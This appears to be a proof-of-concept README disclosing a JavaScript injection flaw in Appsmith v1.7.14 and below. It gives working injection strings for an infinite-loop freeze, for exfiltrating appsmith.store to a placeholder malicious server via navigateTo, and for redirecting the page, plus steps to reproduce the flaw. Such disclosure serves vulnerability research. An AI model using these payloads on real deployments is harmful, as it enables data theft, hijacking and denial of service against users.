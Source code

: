 # Appsmith-Js-Injection-POC


## Vuln Detail
- Vulnerability type: Server side js injection

- Affected product: Appsmith

- Affected version: v1.7.14 and below

An attacker injects a poc into the data loaded by the list in some way, depending on the way in which the application binds the data to the list, for example
1. the attacker saves the POC to the data source via the application
2. the victim accesses the application
3. the application loads the POC data from the data source and binds it to the list component
4. the list component triggers a POC because the `currentItem` property is called in the js code, causing the aspsmith application to perform an unintended behaviour of the user

These unintended behaviours include:

- The victim is unable to use the aspsmith application properly

`'+ (function(){while(1){}})() +'`


- Data leakage. Appsmith disables many js functions, such as the inability to execute xhr functions to initiate requests, which avoids many security issues, however, through this js injection vulnerability, an attacker could call appsmith's built-in function - 'navigateTo' - to send user data to a malicious server in the form of parameters

`'+ navigateTo('http://<malicious_server>', {'q': JSON.stringify(appsmith.store)}, 'NEW_WINDOW') +'`


- Page Hijacking.

`'+ navigateTo('http://<malicious_server>') +'`

Simple demo application:
- live demo: https://app.appsmith.com/app/my-first-application/page1-630ebec37e1d9179c33a1950
- demo application: demo_application/My first application.json


You can reproduce the vulnerability in this way.

1. enter poc in any input component on the right
2. click on the button of the first item in the list on the left

![demo-application-overview.png](./img/demo-application-overview.png)

